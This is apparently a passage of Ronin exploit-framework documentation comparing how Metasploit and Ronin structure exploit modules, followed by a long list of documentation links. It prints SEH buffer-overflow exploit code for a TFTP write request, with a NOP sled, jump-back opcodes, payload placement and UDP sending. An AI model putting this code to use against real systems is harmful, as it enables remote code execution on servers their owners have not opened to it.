 Metasploit exploits define the exploit's logic in one giant `exploit` method:

```ruby
class MetasploitModule < Msf::Exploit::Remote

  def exploit
    connect_udp

    nops = make_nops(50)
    lead = rand_text_alphanumeric(target['Offset'] - payload.encoded.length - nops.length)
    near = "\xe9\x80\xfd\xff\xff"    #jump back 640 bytes to the nop sled
    nseh = "\xeb\xf9" + make_nops(2) #jump back 7 bytes to the long jump

    evil = lead + nops + payload.encoded + near + nseh + [target.ret].pack('V')
    mode = "netascii"

    #Send the WRQ packet (header "\x00\x02")
    sploit = "\x00\x02" + evil + "\0" + mode +"\0"

    udp_sock.put(sploit)

    handler
    disconnect_udp
  end

end
```

### Ronin

While the [Ronin::Exploits::Exploit] class do provide an
[exploit][Ronin::Exploits::Exploit#exploit] method as an entry-point method
for running the exploit, [Ronin exploits][Ronin::Exploits::Exploit]
define their exploit logic in four main methods:

[Ronin::Exploits::Exploit#exploit]: /docs/ronin-exploits/Ronin/Exploits/Exploit.html#exploit-instance_method

1. `validate` - Perform any additional validations before building the exploit.
2. `build` - Builds any exploit buffers, files, or other data that will be used.
3. `launch` - Sends the exploit to the host or service.
4. `cleanup` - Perform any extra cleanup tasks after the user is done using the
   exploit.

```ruby
require 'ronin/exploits/exploit'
require 'ronin/exploits/mixins/has_targets'
require 'ronin/exploits/mixins/has_payload'
require 'ronin/exploits/mixins/text'
require 'ronin/exploits/mixins/nops'
require 'ronin/exploits/mixins/remote_udp'

module Ronin
  module Exploits
    class MyExploit < Exploit

      include Mixins::HasTargets
      include Mixins::HasPayload
      include Mixins::Text
      include Mixins::NOPS
      include Mixins::RemoteUDP

      def build
        nopsled = nops(50)

        lead = random_alpha_numeric(target.offset - payload.length - nopsled.length)
        near = "\xe9\x80\xfd\xff\xff" # jump back 640 bytes to the nop sled
        nseh = "\xeb\xf9" + nops(2)   # jump back 7 bytes to the long jump
```

[Ronin::Exploits::SEHOverflow]: /docs/ronin-exploits/Ronin/Exploits/SEHOverflow.html
[Ronin::Exploits::Mixins::RemoteTCP]: /docs/ronin-exploits/Ronin/Exploits/Mixins/RemoteTCP.html
[Ronin::Exploits::Mixins::RemoteUDP]: /docs/ronin-exploits/Ronin/Exploits/Mixins/RemoteUDP.html
[Ronin::Exploits::Mixins::HTTP]: /docs/ronin-exploits/Ronin/Exploits/Mixins/HTTP.html
[Ronin::Exploits::Mixins::FormatString]: /docs/ronin-exploits/Ronin/Exploits/Mixins/FormatString.html
[Ronin::Exploits::Mixins::SEH]: /docs/ronin-exploits/Ronin/Exploits/Mixins/SEH.html
[Ronin::Exploits::Metadata]: /docs/ronin-exploits/Ronin/Exploits/Metadata.html
[Ronin::Exploits::Metadata::Arch]: /docs/ronin-exploits/Ronin/Exploits/Metadata/Arch.html
[Ronin::Exploits::Metadata::OS]: /docs/ronin-exploits/Ronin/Exploits/Metadata/OS.html
[Ronin::Exploits::MemoryCorruption]: /docs/ronin-exploits/Ronin/Exploits/MemoryCorruption.html
[arch]: /docs/ronin-exploits/Ronin/Exploits/Metadata/Arch/ClassMethods.html#arch-instance_method
[os]: /docs/ronin-exploits/Ronin/Exploits/Metadata/OS/ClassMethods.html#os-instance_method
[os_version]: /docs/ronin-exploits/Ronin/Exploits/Metadata/OS/ClassMethods.html#os_version-instance_method
[Ronin::Exploits::Mixins::HasTargets]: /docs/ronin-exploits/Ronin/Exploits/Mixins/HasTargets.html
[param]: /docs/ronin-core/Ronin/Core/Params/Mixin/ClassMethods.html#param-instance_method
[Ronin::Core::Params::Types]: /docs/ronin-core/Ronin/Core/Params/Types.html
[Ronin::Exploits::Params]: /docs/ronin-exploits/Ronin/Exploits/Params.html
[Ronin::Exploits::Mixins]: /docs/ronin-exploits/Ronin/Exploits/Mixins.html
[Ronin::Exploits::Mixins::RemoteTCP]: /docs/ronin-exploits/Ronin/Exploits/Mixins/RemoteTCP.html
[Ronin::Exploits::Mixins::RemoteUDP]: /docs/ronin-exploits/Ronin/Exploits/Mixins/RemoteUDP.html
[Ronin::Exploits::Mixins::FileBuilder]: /docs/ronin-exploits/Ronin/Exploits/Mixins/FileBuilder.html
[Ronin::Exploits::Exploit::Vulnerable]: /docs/ronin-exploits/Ronin/Exploits/Exploit.html#Vulnerable-instance_method
[Ronin::Exploits::Exploit::NotVulnerable]: /docs/ronin-exploits/Ronin/Exploits/Exploit.html#NotVulnerable-instance_method
[Ronin::Exploits::Exploit::Unknown]: /docs/ronin-exploits/Ronin/Exploits/Exploit.html#Unknown-instance_method
[Ronin::Exploits::Mixins::Text]: /docs/ronin-exploits/Ronin/Exploits/Mixins/Text.html
[random_alpha]: /docs/ronin-support/Ronin/Support/Text/Random/Mixin.html#random_alpha-instance_method
[random_alpha_numeric]: /docs/ronin-support/Ronin/Support/Text/Random/Mixin.html#random_alpha_numeric-instance_method
[random_lowercase_alpha]: /docs/ronin-support/Ronin/Support/Text/Random/Mixin.html#random_lowercase_alpha-instance_method
[random_uppercase_alpha]: /docs/ronin-support/Ronin/Support/Text/Random/Mixin.html#random_uppercase_alpha-instance_method
[random_numeric]: /docs/ronin-support/Ronin/Support/Text/Random/Mixin.html#random_numeric-instance_method
[random_hex]: /docs/ronin-support/Ronin/Support/Text/Random/Mixin.html#random_hex-instance_method
[random_signed_ascii]: /docs/ronin-support/Ronin/Support/Text/Random/Mixin.html#random_signed_ascii-instance_method
[random_ascii]: /docs/ronin-support/Ronin/Support/Text/Random/Mixin.html#random_asciii-instance_method
[Array#pack]: https://apidock.com/ruby/Array/pack
[ronin-support Array#pack]: /docs/ronin-support/Array.html#pack-instance_method
[ronin-support Integer#pack]: /docs/ronin-support/Integer.html#pack-instance_method
[ronin-support Float#pack]: /docs/ronin-support/Float.html#pack-instance_method
[Ronin::Exploits::Mixins::Binary]: /docs/ronin-exploits/Ronin/Exploits/Mixins/Binary.html
[Ronin::Exploits::Mixins::Binary#pack]: /docs/ronin-exploits/Ronin/Exploits/Mixins/Binary.html#pack-instance_method
[Ronin::Exploits::Mixins::Loot]: /docs/ronin-exploits/Ronin/Exploits/Mixins/Loot.html
[loot.add_file]: /docs/ronin-exploits/Ronin/Exploits/Loot.html#add-instance_method
[ronin-exploits]: /docs/ronin-exploits/
[Ronin::Exploits::Exploit]: /docs/ronin-exploits/Ronin/Exploits/Exploit.html
[Ronin::Exploits::Exploit#fail]: /docs/ronin-exploits/Ronin/Exploits/Exploit.html#fail-instance_method